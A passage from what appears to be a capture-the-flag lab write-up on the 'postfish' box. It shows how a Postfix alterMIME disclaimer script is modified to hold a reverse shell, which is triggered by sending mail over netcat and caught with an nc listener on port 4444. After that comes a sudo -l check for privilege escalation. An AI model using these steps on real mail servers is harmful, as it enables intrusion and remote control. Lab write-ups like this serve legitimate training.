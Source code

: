 ```bash
$SENDMAIL "$@" <in.$$

exit $?
```

[How To Automatically Add A Disclaimer To Outgoing Emails With alterMIME (Postfix On Debian Squeeze)](https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze)

From the information above, this default script is run every time disclaimer user gets email. So I added the reverse shell in the script.

# Send email to trigger the shell

```bash
┌──(root💀kali)-[~]
└─# nc -v 192.168.250.137 25                                                                                             1 ⨯
postfish.off [192.168.250.137] 25 (smtp) open
220 postfish.off ESMTP Postfix (Ubuntu)
HELO x
250 postfish.off
MAIL FROM: it@postfish.off
250 2.1.0 Ok
RCPT TO: brian.moore@postifh.off
454 4.7.1 <brian.moore@postifh.off>: Relay access denied
DATA 
554 5.5.1 Error: no valid recipients
gimme the shell
502 5.5.2 Error: command not recognized
RCPT TO: brian.moore@postfish.off       
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
gimme the shell
.
250 2.0.0 Ok: queued as A51EC458F8
```

# The other user shell

```bash
┌──(root💀kali)-[/opt/generic]
└─# nc -lvnp 4444                                                                                                        1 ⨯
listening on [any] 4444 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.250.137] 41194
sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```
